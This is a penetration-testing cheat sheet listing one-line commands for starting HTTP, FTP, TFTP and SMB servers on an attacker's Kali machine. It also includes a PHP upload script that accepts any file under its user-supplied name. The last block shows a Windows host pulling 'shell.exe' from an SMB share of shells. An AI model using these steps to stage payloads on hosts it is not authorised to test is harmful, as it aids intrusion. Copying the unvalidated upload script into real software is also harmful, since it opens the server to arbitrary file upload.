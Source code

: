 # HTTP Server

### Python3 server

```bash
python3 -m http.server [port]
```

### Python2 server

```bash
python -m SimpleHTTPServer [port]
```

#### Flask custom server

→ [Sample Flask Web Server](Python.md#Sample%20Flask%20Web%20Server)

### PHP server

```bash
php -S 0.0.0.0:8000
```

### Ruby server

```bash
ruby -run -e httpd . -p 9000
```

### Busybox server

```bash
busybox httpd -f -p 10000
```

### Apache server

```bash
service apache2 start
cd /var/www/html
```

### PHP Downloader

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

---

# FTP Server

### pure-ftpd

Fast setup:

```bash
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Files contained within `/ftphome` will be available once connected

### python3

```bash
python3 -m pyftpdlib -p 21
[I 2020-07-14 22:54:10] >>> starting FTP server on 0.0.0.0:21, pid=7302 <<<
[I 2020-07-14 22:54:10] concurrency model: async
[I 2020-07-14 22:54:10] masquerade (NAT) address: None
[I 2020-07-14 22:54:10] passive ports: None
```

- `-w`: write access
- `-u`: specifies username to use
- `-P`: specifies password to use

### TFTP

```bash
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

---

# SMB

### Impacket

`smbserver.py` ([ref](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)) from the [impacket](../Tools/impacket.md) project can be used to launch a nice, simple SMB server on port 445.

```bash
# Non authenticated share
kali@kali:~$ python smbserver.py transfer_share /root/shells/

# authenticated share
kali@kali:~$ sudo impacket-smbserver kali . -smb2support -username maoutis -password Qwerty
```

```bash
C:\>copy \\192.168.119.209\transf_share\shell.exe .
copy \\192.168.119.209\transf_share\shell.exe .
        1 file(s) copie
```